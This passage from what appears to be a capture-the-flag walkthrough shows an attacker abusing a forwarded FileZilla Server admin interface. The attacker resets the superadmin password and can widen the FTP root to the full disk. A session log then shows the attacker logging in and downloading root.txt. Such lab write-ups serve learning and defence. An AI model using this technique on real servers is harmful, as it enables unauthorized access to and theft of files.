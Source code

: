 I’ll download [FileZilla Server](https://filezilla-
project.org/download.php?type=server) and install it. I’ll choose to tell it
to start manually each time it asks me, as I don’t want to run an FTP server
on my Commando host.

Now I’ll open it, and it prompts me for a host to connect to:

![1570124022070](https://0xdfimages.gitlab.io/img/1570124022070.png)

If it doesn’t, that’s because I put in information for the server on install.
I can go to File -> Connect to Server… to get the same pop up. When I enter
localhost and the port I forwarded to, it shows I’m connected in the main
window:

![1570124145053](https://0xdfimages.gitlab.io/img/1570124145053.png)

Now I can configure the FTP server.

### Configure FTP User

I’ll click on the users button (4th from the left), and there’s a dialog
showing one user, superadmin:

![1570124186893](https://0xdfimages.gitlab.io/img/1570124186893.png)

I’ll change the password to something I know. In the “Shared folders” tab,
I’ll see this users home directory is the FTP root:

![1570124300109](https://0xdfimages.gitlab.io/img/1570124300109.png)

I could change that to `c:\` for full disk, or leave it to go directly to
`root.txt`.

I’ll click ok, and then go to a PowerShell window to connect with FTP:

    
    
    PS > ftp 10.10.10.158
    Connected to 10.10.10.158.
    220-FileZilla Server 0.9.60 beta
    220-written by Tim Kosse (tim.kosse@filezilla-project.org)
    220 Please visit https://filezilla-project.org/
    202 UTF8 mode is always enabled. No need to send this command.
    User (10.10.10.158:(none)): superadmin
    331 Password required for superadmin
    Password:
    230 Logged on
    ftp> cd desktop
    250 CWD successful. "/desktop" is current directory.
    ftp> dir
    200 Port command successful
    150 Opening data channel for directory listing of "/desktop"
    -r--r--r-- 1 ftp ftp            282 May 22  2019 desktop.ini
    -r--r--r-- 1 ftp ftp             32 May 22  2019 root.txt
    226 Successfully transferred "/desktop"
    ftp: 124 bytes received in 0.02Seconds 6.53Kbytes/sec.
    ftp> get root.txt
    200 Port command successful
    150 Opening data channel for file download from server of "/desktop/root.txt"
    226 Successfully transferred "/desktop/root.txt"
    ftp: 32 bytes received in 0.00Seconds 32000.00Kbytes/sec.
    ftp>
    